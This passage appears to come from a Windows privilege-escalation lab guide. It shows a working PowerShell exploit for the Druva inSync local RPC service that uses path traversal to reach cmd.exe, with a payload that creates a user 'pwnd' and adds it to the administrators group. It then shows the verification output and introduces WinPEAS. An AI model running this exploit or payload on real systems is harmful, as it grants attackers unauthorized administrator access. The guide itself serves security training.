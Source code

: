 )

$s.Connect("127.0.0.1", 6064)

$header = \[System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW\[v0002]")

$rpcType = \[System.Text.Encoding]::UTF8.GetBytes("$(\[char]0x0005)\`0\`0\`0")

$command = \[System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\\..\\..\\..\Windows\System32\cmd.exe /c $cmd");

$length = \[System.BitConverter]::GetBytes($command.Length);

$s.Send($header)

$s.Send($rpcType)

$s.Send($length)

$s.Send($command)

* Default payload creates user called pwnd but does not assign administrative privileges.
* Change payload to add created user to administrators group.

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

**2. Verify that pwnd user exists and is member of administrators group.**

net user pwnd

User name pwnd

Full Name

Account active Yes

\[...]

Local Group Memberships \*Administrators \*Users

Global Group memberships \*None

**3. Run command prompt as administrator.**

* Use pwnd credentials.

### **Tools of the Trade** <a href="#f9ykogekpx38" id="f9ykogekpx38"></a>

* Scripts exist to shorten enumeration process times and uncover different potential privilege escalation vectors.
* Automated tools can sometimes miss privilege escalation.

### [**WinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) <a href="#zchhrqn950u5" id="zchhrqn950u5"></a>

* Script developed to enumerate target and uncover privelege escalation paths.
* Download as precompiled executable or .bat script to target.
* Redirect output to a file as output can be lengthy and difficult to read.
